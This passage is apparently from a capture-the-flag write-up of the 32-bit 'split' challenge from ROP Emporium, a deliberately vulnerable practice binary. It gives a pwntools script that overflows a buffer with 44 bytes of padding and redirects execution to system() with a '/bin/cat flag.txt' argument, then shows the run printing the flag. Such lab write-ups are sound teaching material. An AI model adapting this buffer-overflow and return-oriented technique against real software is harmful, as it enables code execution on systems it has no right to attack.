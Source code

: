 Our exploit is completed successfully

There is an alternate approach for this too..

``` 0x0804861a <+14>:	call   0x80483e0 <system@plt> ```

In  ```0x0804861a```, ```system()``` is called as sub routine program and we don't have to worry about the exit function address

But argument needed for ```system()``` should be passed following it

```payload = 44 bytes of junk + Address 0x0804861a + Address of "/bin/cat flag.txt ```

So our exploit looks like,

```c
ra@moni:~/split32$ cat exp-alt.py
from pwn import *
cat=p32(0x0804a030)
call_system=p32(0x0804861a)
payload='A'*44
payload+=call_system
payload+=cat
print(payload)
```

Lets try running our exploit,

```c
ra@moni:~/split32$ python2 exp-alt.py | ./split32
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
Segmentation fault (core dumped)
```

Done! we have completed split (32 bit)


